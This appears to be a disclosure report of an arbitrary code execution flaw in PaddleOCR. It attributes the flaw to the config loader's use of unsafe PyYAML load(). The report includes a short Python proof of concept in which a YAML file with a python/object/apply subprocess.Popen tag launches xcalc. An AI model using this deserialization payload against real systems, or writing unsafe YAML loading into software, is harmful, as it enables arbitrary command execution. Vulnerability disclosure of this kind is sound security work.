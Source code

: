 # Description
**Arbitrary Code Excecution** in PaddlePaddle/PaddleOCR.multilingual OCR toolkits based on PaddlePaddle （multilingual recognition: English, Chinese, Korean, Japanese, German, French etc. 3.5M practical ultra lightweight OCR system, support training and deployment among server, mobile, embedded and IoT devices）
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **pyyaml**
# Exploit code
**Python File**
```python
import os
import program

exploityaml = """!!python/object/apply:subprocess.Popen
- ['xcalc']
"""

open('exploit.yml','w+').write(exploityaml)
exploit =  program.load_config('exploit.yml')

```
# POC
![](https://cdn.discordapp.com/attachments/749019614352244777/784374045248323584/Screenshot_from_2020-12-04_15-54-40.png)

# Exploitable code
[exploitable code](https://github.com/PaddlePaddle/PaddleOCR/blob/2e088638d44bc9d637e281b99cfc93c647894db4/tools/program.py#L93)
